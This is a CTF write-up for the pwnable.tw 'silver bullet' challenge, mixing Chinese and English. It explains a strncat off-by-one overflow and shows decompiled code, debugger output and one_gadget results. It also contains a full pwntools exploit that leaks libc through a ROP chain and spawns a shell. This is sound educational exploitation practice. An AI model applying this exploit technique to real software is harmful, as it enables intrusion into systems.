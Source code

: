 # silver bullet

```
[*] '/home/user/tw/silver_bullet'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

血量 2^31-1
- 新增子彈
    - 輸入子彈描述 長度限制 48
    - 攻擊是描述長度
    - 攻擊存offset 0x30
- 加強子彈
    - 攻擊 >0x2F 就無法增加攻擊
    - read_input 長度 48-當前子彈攻擊
    - strncat dest input size 當前子彈攻擊
- 攻擊怪物

strncat 會在最後放 \0，而當 dest 不夠長時，就會發生 buffer overflow，buffer 在 main 函數中

所以可以 overflow 到 bullet_len 這樣 bullet_len = 0

先塞入 47 個 A 再 powerup 加上一個 B，總長為 48，再次 powerup 又可以塞 48 bytes 

又可以在寫入 48 bytes 進去 控制 ret，beat 後 win 才會碰到 main leave ret，不過我們已經可以 overflow buffer 所以可以 win
```
00000000 struct_dest     struc ; (sizeof=0x34, align=0x4, mappedto_5)
00000000 char0           db ?
00000001 gap1            db 47 dup(?)
00000030 bullet_len      dd ?
00000034 struct_dest     ends
00000034
```

先 leak libc base addr



還有一個比較特別的是為了 puts 可以拿到要 print got 的位置，所以 payload 會長的比較特別 
- puts addr
- main addr //為了可以再次跳回main
- got addr

但是 48 bytes 好像沒有辦法太好利用，先找 gadget 
```
user@vm-ubuntu20:~/tw$ one_gadget libc_32.so.6 
0x3a819 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x5f065 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5f066 execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```

在 main ret 時
```
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*EAX  0x0
*EBX  0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
*ECX  0xf7e2b9b4 (_IO_stdfile_1_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ff6b80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffa5f704 —▸ 0xffa613c1 ◂— './silver_bullet'
*EBP  0x804b02c ◂— 0x0
*ESP  0xffa5f650 ◂— 'P*++'
*EIP  0x8048a19 (main+197) ◂— ret 
───────────────────────[ DISASM / i386 / set emulate on ]───────────────────────
 ► 0x8048a19 <main+197>    ret    <0x2b2b2a50>

```


```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 0x30u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *((_DWORD *)s + 12) = v2;
  return puts("Good luck !!");
}

int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 0x30u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)dest + 12) > 0x2Fu )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *((_DWORD *)dest + 12));
  strncat(dest, &s, 48 - *((_DWORD *)dest + 12));
  v3 = strlen(&s) + *((_DWORD *)dest + 12);
  printf("Your new power is : %u\n", v3);
  *((_DWORD *)dest + 12) = v3;
  return puts("Enjoy it !");
              
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *(_BYTE *)a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(0xF4240u);
    *a2 -= *(_DWORD *)(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}

ssize_t __cdecl read_input(void *buf, size_t nbytes)
{
  ssize_t v3; // [esp+0h] [ebp-4h]

  v3 = read(0, buf, nbytes);
  if ( v3 <= 0 )
  {
    puts("read error");
    exit(1);
  }
  if ( *((_BYTE *)buf + v3 - 1) == '\n' )
    *((_BYTE *)buf + v3 - 1) = 0;
  return v3;
}
```

exploit
```python 
from pwn import *

# context(arch="amd64", os='linux', log_level='debug')

elf = ELF('./silver_bullet')
libc = ELF("./libc_32.so.6")

r = remote('chall.pwnable.tw', 10103)


def create(description):
    r.sendafter("choice", '1')
    r.sendafter("description of bullet", description)

def power_up(description):
    r.sendafter("choice", '2')
    r.sendafter("another description of bullet", description)

def beat():
    r.sendafter("choice", '3')

create("A"*47)
power_up("A")
#   char s; // [esp+8h] [ebp-34h] 52
# >>> 52-48 =4

# 
ebp=0x804b02c

power_up(
        b'\xff' * 3 + p32(ebp) +
         p32(elf.sym['puts']) + 
         p32(elf.sym['main']) + 
         p32(elf.got['puts'])
         )
beat()
r.recvuntil("Oh ! You win !!\n")
puts = u32(r.recv(4))


libc_base = puts - libc.sym['puts']
one = libc_base + 0x5f065

create("A"*47)
power_up("A")
power_up(b'\xff' * 3 + p32(ebp)+p32(one))
beat()

r.interactive()
```

>FLAG{uS1ng_S1lv3r_bu1l3t_7o_Pwn_th3_w0rld}
